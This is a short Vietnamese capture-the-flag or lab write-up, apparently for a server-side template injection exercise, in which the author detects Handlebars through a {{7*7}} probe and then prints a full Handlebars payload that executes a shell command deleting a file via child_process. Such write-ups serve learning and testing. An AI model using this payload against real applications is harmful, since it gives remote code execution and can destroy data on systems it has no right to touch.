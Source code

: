 Tương tự như lab 1, em gửi request đó tới Repeater để khai thác.

Em đổi giá trị của tham số message thành `{{7*7}}` rồi gửi request thì thấy thông báo lỗi được trả về:

![lab-4-2](images/lab-4/lab-4-2.png)

Em xác định được trang web đang sử dụng Handlebars nên em sử dụng payload sau để khai thác:

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Em encode URL payload trên và truyền vào message rồi gửi request:

![lab-4-3](images/lab-4/lab-4-3.png)
